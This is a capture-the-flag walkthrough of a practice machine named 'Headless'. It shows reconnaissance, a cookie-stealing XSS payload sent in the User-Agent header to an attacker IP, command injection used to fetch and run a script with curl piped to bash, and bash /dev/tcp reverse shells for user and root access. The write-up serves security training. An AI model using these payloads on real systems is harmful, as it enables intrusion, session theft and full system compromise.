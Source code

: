 # Headless

## Recon

### Nmap

#### TCP
```
$ s nmap 10.10.11.8 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-19 09:09 CEST
Stats: 0:00:25 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 73.04% done; ETC: 09:10 (0:00:09 remaining)
Nmap scan report for 10.10.11.8
Host is up (0.034s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 31.93 seconds
~ took 31s
```

- What is upnp?
> The port isn't actually upnp is a web server
- Check ssh?
> OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)

#### UDP

nothing intersessting

### Web at port 5000

Landing page with support page.

#### Manual inspection

- There is a cookie set `is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs`. The first part of the value `InVzZXIi` is base64 for `"user"`
- There is a page `/support` with a form to send a message to the admin. There are 5 fields:
    - First name
    - Second name
    - Email
    - Phone
    - Comment

- The page `/dashboard` gives a 401 error code with the default cookie. The error message reads the following:
```
The server could not verify that you are authorized to access the URL requested. You either supplied the wrong credentials (e.g. a bad password), or your browser doesn't understand how to supply the credentials required.
```
When tampering with the cookie (setting the "user" part to "admin" or "administrator") it returns a 500 with the following error message:
```
The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.
```
- The webserver is `Werkzeug` version 2.2.2. It is a Flask derivate (python).

- When trying to XSS the comment field on the form in the `/support` page a message withhacking attempt detected appears:
```
Hacking Attempt Detected

Your IP address has been flagged, a report with your browser information has been sent to the administrators for investigation.

Client Request Information:

Method: POST
URL: http://10.10.11.8:5000/support
Headers: Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.8:5000/support
Content-Length: 151
Origin: http://10.10.11.8:5000
Connection: keep-alive
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Pragma: no-cache
Cache-Control: no-cache
```
The other fields although you can XSS don't ping back. Reading the previous message it says the messages is sent to admins. Maybe XSS one of the fields on the message gets the trick done.

##### The dashboard
> After getting acces to the dashboard.

There is a form to get reports of the server with only one field, the date. Modifying the request to append `;echo hola` prints back hola to the screen. Seems a rce.

#### Automated

##### Directory enumeration

```
$ gobuster dir -u http://10.10.11.8:5000 -w directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

### Exploitation

#### Web application

Setting the user agent to a XSS (`<script>var img=new Image();img.src='http://10.10.14.18:1234/'+btoa(document.cookie);</script>`) as the same time setting it in the message field triggers the `hacker attempt detected` message and pings back home.

```
$ python -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
10.10.11.8 - - [19/Jul/2024 11:25:54] "GET /?c=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
$ echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d
is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0~
```

We get the cookie. Passing the first segment of the cookie through a base64 decoder we get `"admin"`. Looks good.
Setting the cookie and accessing the page `/dashboard` the status code changes from 401 to 200 and we get acces to the dashboard.

Inside the `/dashboard` there is a form with rce by just appending commands to the request field date. Testing for curl (`which curl`) we get a path response meaning it exists.
We create a payload:
```
$ cat shell.sh 
bash -i >& /dev/tcp/10.10.14.18/1234 0>&1
```

And we upload it and run it using the rce (`;curl http://10.10.14.18:1111/shell.sh|bash`) and we get a reverse shell.

#### User flag

Going to the home there it is:
```
dvir@headless:~$ ls
ls
app
geckodriver.log
user.txt
dvir@headless:~$ cat user.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

#### Privilege scalation

Using linpeas or sudo -l wee can see that we can execute a command as sudo without password `/usr/bin/syscheck`. It is a bash script and it we read it we will see it calls to execution another script called `initdb.sh`. Looking for that script it turns out to be in `/home/dvir/app/` which is a directory where we can read and write.

We prepare another revers shell inside the script
```
$ cat initdb.sh 
bash -i >& /dev/tcp/10.10.14.18/1235 0>&1
```

and execute `sudo syscheck`. Another shell pops this time with rool privileges.
We navigate to the home folder and extract the flag:
```
root@headless:/home/dvir/app# cd
cd
root@headless:~# ls
ls
root.txt
root@headless:~# cat root.txt   
cat root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

